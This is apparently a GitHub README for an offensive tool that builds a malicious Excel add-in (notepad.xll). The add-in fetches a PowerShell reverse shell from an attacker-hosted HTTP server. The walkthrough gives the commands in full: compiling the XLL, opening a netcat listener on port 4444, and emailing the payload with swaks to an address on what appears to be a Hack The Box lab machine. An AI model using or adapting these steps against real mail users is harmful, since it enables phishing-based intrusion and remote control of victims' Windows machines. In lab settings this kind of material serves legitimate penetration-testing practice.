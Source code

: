 # xll_windows_reverse_shell
xll windows reverse shell



### In your Attacker (Kali) machine:
```
git clone https://github.com/c0d3cr4f73r/xll_windows_reverse_shell.git
```
1. Update the `revsh.ps1`
2. create python http server 
```
python3 -m http.server 9999
```

### In your Attacker (Windows) machine:

1. Move `notpadXLL.c` to your windows attacker machine and update the `notpadXLL.c` accordingly.
3. Open `x64 Native Tools Command Prompt for VS 2022`
4. run below command to genarte `notepad.xll`
```
cl.exe /LD notepadXLL.c /link /out:notepad.xll
```

![image](https://github.com/c0d3cr4f73r/xll_windows_reverse_shell/assets/66146701/fa052809-575a-480f-be6d-0ba6b7e2dde0)

5. move this `notepad.xll` to your Kali machine

### In your Kali Machine

1. download `swaks`
```
 curl -O https://jetmore.org/john/code/swaks/files/swaks-20240103.0/swaks
```

2. configure nc listner

```
nc -nlvp 4444
```

3. Use `swaks` to send an email with notepad.xll attached:
```
./swaks --to accounts@axlle.htb --from ihatethisbox@fuckhtb.htb --server 10.10.11.21 --port 25 --header "Subject: test" --body "test" --attach @notepad.xll
```

![image](https://github.com/c0d3cr4f73r/xll_windows_reverse_shell/assets/66146701/e0c783a7-47ba-4a05-95aa-8e8c29ce0791)

